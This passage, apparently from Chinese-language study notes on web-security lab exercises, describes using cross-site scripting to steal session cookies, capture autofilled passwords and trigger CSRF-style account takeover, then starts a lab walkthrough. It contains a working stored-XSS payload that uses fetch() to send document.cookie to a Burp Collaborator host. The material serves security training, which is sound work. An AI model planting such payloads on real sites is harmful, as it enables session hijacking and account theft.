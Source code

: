 在实践中，这种方法有一些明显的局限性：
    1、受害者可能没有登录。
    2、许多应用程序使用 仅HttpOnly旗帜。
    3、会话可能会被锁定到其他因素，如用户的IP地址。
    4、会话可能会在您能够劫持它之前超时</code></pre>
涉及实验：<br/> 实验14：利用跨站点脚本窃取Cookie
<hr/>
5、利用跨站点脚本来捕获密码
————
（1）许多用户都有自动填充密码的密码管理器。可以通过创建密码输入、阅读自动填充的密码并将其发送到我们的域来利用这一点。此技术避免了与窃取Cookie相关的大多数问题，甚至可以访问受害者重用相同密码的所有其他帐户。
————
（2）这种技术的主要缺点是，它只适用于拥有执行密码自动填充的密码管理器的用户。(如果用户没有保存密码，仍然可以尝试通过现场网络钓鱼攻击获取其密码） 
————
涉及实验：<br/> 实验15：利用跨站点脚本来捕获密码
<hr/>
6、利用跨站点脚本执行CSRF
————
1、根据目标网站，可能会让受害者发送消息，接受好友请求，提交一个后门到源代码库，或转移一些比特币。
————
2、某些网站允许登录用户更改其电子邮件地址，而无需重新输入密码。如果发现了XSS漏洞，可以让它触发此功能，将受害者的电子邮件地址更改为能控制的地址，然后触发密码重置以获得对帐户的访问权限
————
3、这种类型的利用通常称为跨站点请求伪造（CSRF），这有点令人困惑，因为CSRF也可能作为独立漏洞出现。当CSRF作为独立漏洞出现时，可以使用诸如反CSRF令牌之类的策略对其进行修补。但如果同时存在XSS漏洞，这些策略将不提供任何保护。 
————
涉及实验：<br/> 实验16：利用XSS实现CSRF


---


---


> 
<h3>实验14：利用跨站点脚本窃取Cookie</h3>
信息：
本实验在博客评论函数中包含一个已存储的XSS漏洞。模拟的受害者用户查看所有发表的评论
解决实验：利用此漏洞来泄漏受害者的会话cookie，然后使用此cookie来模拟受害者
<hr/>
part1:
使用Burp Suite Professional，转到Collaborator选项卡。<br/> 单击“复制到剪贴板”将唯一的Burp Collaborator有效负载复制到剪贴板
<pre>`jg3vbb0cmdrxsi0uyp9h9lc47vdl1a.burpcollaborator.net`</pre>


<hr/>
part2:
插入XSS
在博客评论中提交以下有效负载，在指定位置插入您的Burp Collaborator子域：
<pre><code>&lt;script&gt;
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
&lt;/script&gt;
